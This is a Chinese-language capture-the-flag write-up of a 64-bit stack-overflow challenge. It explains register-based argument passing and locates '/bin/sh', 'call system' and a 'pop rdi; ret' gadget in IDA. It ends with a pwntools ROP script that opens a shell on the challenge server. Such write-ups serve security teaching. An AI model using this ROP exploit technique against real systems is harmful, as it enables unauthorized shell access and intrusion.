 但是程序并没有后门函数可以直接执行`system("/bin/sh")`指令从而getshell  
所以接下来就去IDA的Strings里面寻找线索：

> ![](/images/18865b98e6199bfa589b1e08f2cbfd7e.png)
>
> 发现Strings当中有getshell需要的"/bin/sh"字符
>

> 已经知道靶机程序是64位的，  
可以利用64位程序函数调用时传参的机制来修改调用`system`函数时的参数，  
将`/bin/sh`传入从而执行`system("/bin/sh")`指令
>

### 重点：64位程序函数传参机制
+ 64位程序当中函数被调用时前6个参数会依次通过rdi、rsi、rdx、rcx、r8、r9 六个寄存器传入，多于6个之外的参数通过栈传入
+ 32位程序当中函数被调用时所有参数都是通过栈传入

> 因此可以利用64位程序函数传参的机制来将`/bin/sh`传入`system`函数从而实现执行`system("/bin/sh")`指令
>

> 回到IDA，从刚才Strings截图当中可以知道`/bin/sh`的地址是0x402008  
再看回`shell`函数的汇编指令：
>
> ![](/images/cc98401f43b7877f6c280985e236013c.png)  
从图上可以知道`call system`指令的地址是0x40120F
>

> 接着看看`vuln`函数的栈帧：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240825001527876.png)![](/images/563a3a67344c85c4e15566b1442502ec.png)  
可以知道`buf`离返回地址有0x70+0x08=0x78个字节
>

> 贴一张手写的分析，感觉原理逻辑用文字不太能表达的出来（其实是偷懒）：
>
> ![](/images/bb43b55cf9e0266e131a8e32630e5632.jpeg)
>

> 因为`system("/bin/sh")`指令只传入了一个参数`"/bin/sh"`，  
根据64位程序函数传参机制，需要用到rdi寄存器来传入`/bin/sh`  
所以在汇编指令界面找到`pop rdi;ret`指令：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240825002253439.png)![](/images/cfd7fcd353fe8e851fa4187f0350fbf4.png)  
得到`pop rdi;ret`指令的地址为0x401196
>

> 接下来就是写脚本啦：
>

```plain
from pwn import *
link=remote('challenge.basectf.fun',端口)
binsh_addr=0x402008
system_addr=0x40120F
rdi=0x401196
payload=b'a'*0x78+p64(rdi)+p64(binsh_addr)+p64(system_addr)
link.sendline(payload)
link.interactive()
```
